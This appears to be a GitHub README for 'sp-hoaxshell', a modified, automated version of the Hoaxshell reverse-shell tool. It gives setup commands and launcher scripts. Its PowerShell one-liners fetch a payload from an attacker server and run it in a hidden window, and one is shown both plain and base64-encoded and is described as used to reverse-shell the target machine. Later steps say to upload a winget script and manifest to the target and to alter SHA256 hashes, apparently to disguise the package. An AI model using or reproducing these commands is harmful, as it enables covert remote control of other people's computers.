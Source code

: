 # sp-hoaxshell
Copy of the real Hoaxshell (https://github.com/t3l3machus/hoaxshell) with modifications to automatise everything
& see : https://github.com/SentinelSamuel/sp-hoaxshell


## Installation + configuration before the start
```
sudo git clone https://github.com/t3l3machus/hoaxshell.git
sudo rm ./hoaxshell/hoaxshell.py
sudo git clone https://github.com/SentinelSamuel/sp-hoaxshell.git
sudo mv ./sp-hoaxshell/hoaxshell.py ./hoaxshell
sudo mv ./sp-hoaxshell/sp-hoax/ ./
sudo rm -rf ./sp-hoaxshell
sudo pip3 install -r ./hoaxshell/requirements.txt
sudo chmod +x ./hoaxshell/hoaxshell.py
cd sp-hoax/
```

### 1) Start Python server
```
# maybe a sudo before ?
bash python-server-1.sh
```
### 2) Start hoaxshell
```
# maybe a sudo before ?
bash hoaxshell-2.sh  
```
### 3) Make the info file correct
```
# maybe a sudo before ?
pwsh info-3.ps1
```


## Some infos :
```
# Not encoded :
$e=Invoke-RestMethod -Uri "http://10.1.1.3:70/sp-hoax/info"; powershell -WindowStyle hidden -e $e
```
```
# Encoded with this :
$text='<Your commands>'
$encoded=[convert]::ToBase64String([Text.Encoding]::Unicode.getBytes($text))
$encoded
```
```
# Encoded & used in the scripts to reverse-shell the targered machine
powershell -WindowStyle hidden -e "JABlAD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADAALgAxAC4AMQAuADMAOgA3ADAALwBzAHAALQBoAG8AYQB4AC8AaQBuAGYAbwAiADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABoAGkAZABkAGUAbgAgAC0AZQAgACQAZQA="
```

## AFTER INSTALLING AND DOING EVERYTHING IN THE sp-hoaxshell
Winget.ps1 & winget-manifest.yml --> upload on the target machine

## Installation & configuration before the start :
```
git clone https://github.com/SentinelSamuel/sp-winget-RS-hoax.git
cd ./sp-winget-RS-hoax/winget
``` 

### 4) Start Sha256 changer
```
sudo bash change-sha256.sh
```
